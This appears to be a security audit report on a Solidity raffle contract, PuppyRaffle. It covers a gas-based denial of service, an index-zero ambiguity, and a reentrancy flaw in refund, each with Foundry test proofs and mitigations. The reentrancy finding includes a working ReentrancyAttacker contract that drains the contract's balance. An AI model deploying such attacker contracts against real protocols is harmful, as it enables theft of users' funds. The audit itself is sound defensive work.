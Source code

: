 ### [M-1] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service (DoS) attack, incrementing gas costs for future entrants.

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicate entries. However, the longer the `players` array is, the more checks a new player will have to make. This means the gas costs for players who enter right when the starts will be dramatically lower than those who enter later on. Every additional address in the `players` array is an additional check the loop will have to make.

```javascript
        // Check for duplicates
>>      for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```

**Impact:** The gas cost for entrants will greatly increase as more players enter the raffle. Discouraing later users from entering and causing a rush at the start of the raffle. An attacker might make the array so big that no else can feasibly enter, guarenteeing the win for themselves.

**Proof of Concept:**

If we enter 2 sets of a thousand players, the costs will be as following

Gas cost for entering the first 1000 players: 417422122

Gas cost for entering the second 1000 players: 1600800307

This is 3.8 times more cost.

<details>
<summary> PoC </summary>

Place the following into your PuppyRaffleTest.t.sol

```javascript
    function test_dos() public {
        //Setting the gas price to 1
        vm.txGasPrice(1);
        //Lets enter 1000 players
        address[] memory players = new address[](1000);
        for(uint i = 0; i<1000; i++){
            players[i] = address(i);
        }
        //Gas cost for entering the first 1000 players
        uint256 gasStartA = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEndA = gasleft();
        uint256 gasUsedA = (gasStartA - gasEndA) * tx.gasprice;
        console.log("Gas cost for entering the first 1000 players: ", gasUsedA);

        //Lets enter another 1000 players
        for(uint i = 0; i<1000; i++){
            players[i] = address(i+1000);
        }
        //Gas cost for entering the second 1000 players
        uint256 gasStartB = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEndB = gasleft();
        uint256 gasUsedB = (gasStartB - gasEndB) * tx.gasprice;
        console.log("Gas cost for entering the second 1000 players: ", gasUsedB);

        assertTrue(gasUsedA < gasUsedB);
    }
```

</details>

**Recommended Mitigation:**

1. Consider allow duplicates. A user can generate new addresses with little so a duplicate check will not prevent the same person entering multiple times. Only a single wallet.
2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.
3. Use OpenZeppelins EnumurableSet library.

### [M-2] `PuppyRaffle::getActivePlayerIndex` will return 0 for the first player which will make the first player assume they are not an active player.

**Description:** The `PuppyRaffle::getActivePlayerIndex` function loops through the `players` array to check for the players address and returns 0 if it's not found. However, it also returns the position of the array the player is found in. A player can be in `players[0]` position which will also return 0.

```javascript
        function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
>>              return i;
            }
        }
        return 0;
    }
```

**Impact:** The first player will assume they are not an active player in the raffle and will waste funds attempting to enter the raffle again. They will be rejected for being a duplicate entry by the `PuppyRaffle::enterRaffle` function which will waste gas costs for the user. This will also have a reputation hit as the user can share with others that the raffle is broken and to not interact with it.

**Proof of Concept:**

<details>
<summary> PoC </summary>

Place the following into your PuppyRaffleTest.t.sol

```javascript
    function test_getActivePlayersIndexReturnsZeroWhenPlayerIsInZeroPosition() public {
        address[] memory players = new address[](1);
        players[0] = address(1);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        assertEq(puppyRaffle.getActivePlayerIndex(address(1)), 0);
    }
```

</details>

**Recommended Mitigation:**

1. Consider verifying that the user is an active player before looking for the index. You can update `PuppyRaffle::_isActivePlayer` to accept an address then call it in `PuppyRaffle::getActivePlayerIndex` in a require statement to ensure the user exists. The require statement can throw an error to tell the player that there is no index for them as they are not an active participant.

<details>
<summary> Update _isActivePlayerIndex to this </summary>

Place the following into your PuppyRaffleTest.t.sol

```diff
    /// @notice this function will return true if the msg.sender is an active player
+   function _isActivePlayer(address player) internal view returns (bool) {
-   function _isActivePlayer() internal view returns (bool) {
        for (uint256 i = 0; i < players.length; i++) {
+           if (players[i] == player) {
-           if (players[i] == msg.sender) {
                return true;
            }
        }
        return false;
    }
```

</details>

<details>
<summary> Add require statement to getActivePlayerIndex </summary>

Place the following into your PuppyRaffleTest.t.sol

```diff
    function getActivePlayerIndex(address player) external view returns (uint256) {
+       require(_isActivePlayer(player), 'PuppyRaffle: Not active player')
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
-       return 0;
    }
```

</details>

### [H-1] Sending refund before updating players array in `PuppyRaffle::refund` allows for attacker to drain the protocol using a reentrancy attack.

**Description:** The `PuppyRaffle::refund` sends the refund to the msg.sender before assigning that index to the 0 address. If the receipient of the address is a contract which has a receive() method to call the function again with the same index, the `PuppyRaffle::refund` will evaluate the index again, see a valid `PuppyRaffle::playerAddress` and resend the refund.

```javascript
        function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

>>      payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

**Impact:** The attacker can steal all the funds in the protocol.

**Proof of Concept:**

This attack required an attacking contract to be in receipt of the funds. The following is the output of the test demonstrating the attack.

Logs:

Starting balance of PuppyRaffle is: 4000000000000000000

Starting balance of Attacker is: 0

Ending balance of PuppyRaffle is: 0

Ending balance of Attacker is: 5000000000000000000

<details>
<summary> PoC </summary>

Place the following test into your PuppyRaffleTest.t.sol

```javascript
    function test_ReentrancyAttack() public {
        address[] memory players = new address[](4);
        players[0] = address(1);
        players[1] = address(2);
        players[2] = address(3);
        players[3] = address(4);
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
        address attacker = makeAddr("attacker");
        vm.deal(attacker, 1 ether);

        uint256 attackerContractStartingBalance = address(attackerContract).balance;
        uint256 puppyRaffleStartingBalance = address(puppyRaffle).balance;

        console.log("Starting balance of PuppyRaffle is: ", puppyRaffleStartingBalance);
        console.log("Starting balance of Attacker is: ", attackerContractStartingBalance);

        vm.prank(attacker);
        attackerContract.attack{value: entranceFee}();

        uint256 attackerContractEndingBalance = address(attackerContract).balance;
        uint256 puppyRaffleEndingBalance = address(puppyRaffle).balance;

        console.log("Ending balance of PuppyRaffle is: ", puppyRaffleEndingBalance);
        console.log("Ending balance of Attacker is: ", attackerContractEndingBalance);
    }
```

And the following attacking contract in the same file

```javascript
contract ReentrancyAttacker {

    PuppyRaffle puppyRaffle;
    uint256 entranceFee = 1e18;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle){
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealBalance() internal {
        if(address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable{
        _stealBalance();
    }

    receive() external payable{
        _stealBalance();
    }
}
```

</details>

**Recommended Mitigation:**

1. Apply the Check-Effect-Interactions (CEI) design pattern by moving the transfer after updating the players array

<details>
<summary> Mitigation </summary>

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

-       payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
+       payable(msg.sender).sendValue(entranceFee);
        emit RaffleRefunded(playerAddress);
    }
```

</details>

2. Add a boolean variable that controls access to the refund function during a transaction

<details>
<summary> Mitigation </summary>

```diff
+   bool private locked = false;

    function refund(uint256 playerIndex) public {
+       require(locked == false, "PupprRaffle: Refund is locked");
+       locked = true;
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
+       locked = false;
    }
```

</details>

3. Use the nonReentrant modifier in the ReentrancyGuard provided by the OpenZeppelins library.
